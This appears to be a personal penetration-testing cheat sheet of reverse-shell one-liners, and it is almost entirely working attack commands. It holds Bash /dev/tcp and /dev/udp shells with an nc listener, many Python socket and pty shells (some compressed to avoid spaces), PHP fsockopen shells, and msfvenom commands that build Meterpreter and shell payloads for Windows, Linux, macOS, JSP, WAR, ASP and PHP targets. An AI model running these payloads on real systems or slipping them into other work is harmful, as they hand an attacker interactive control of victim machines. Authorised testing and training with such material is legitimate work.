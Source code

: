 # Reverse Shells

MANY more on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/) - These are my more commonly used ones

## Bash <a href="#bash-tcp" id="bash-tcp"></a>

### TCP <a href="#bash-tcp" id="bash-tcp"></a>

```
bash -i >& /dev/tcp/IP/port 0>&1

0<&196;exec 196<>/dev/tcp/IP/port; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/IP/port 0<&1 2>&1
```

### UDP <a href="#bash-udp" id="bash-udp"></a>

```
Victim:
sh -i >& /dev/udp/IP/port 0>&1

Listener:
nc -u -lvp port
```

## Python

### IPv4

```
export RHOST="IP";export RPORT=port;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

### IPv4 (No Spaces)

```
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

```
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

```
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

## PHP <a href="#php" id="php"></a>

```
php -r '$sock=fsockopen("IP",port);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",port);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("IP",port);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Meterpreter <a href="#ruby" id="ruby"></a>

### Windows Staged reverse TCP <a href="#windows-staged-reverse-tcp" id="windows-staged-reverse-tcp"></a>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

### Windows Stageless reverse TCP <a href="#windows-stageless-reverse-tcp" id="windows-stageless-reverse-tcp"></a>

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

### Linux Staged reverse TCP <a href="#linux-staged-reverse-tcp" id="linux-staged-reverse-tcp"></a>

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

### Linux Stageless reverse TCP <a href="#linux-stageless-reverse-tcp" id="linux-stageless-reverse-tcp"></a>

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

### Other

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="IP" LPORT=port -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="IP" LPORT=port -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="IP" LPORT=port -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="IP" LPORT=port -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

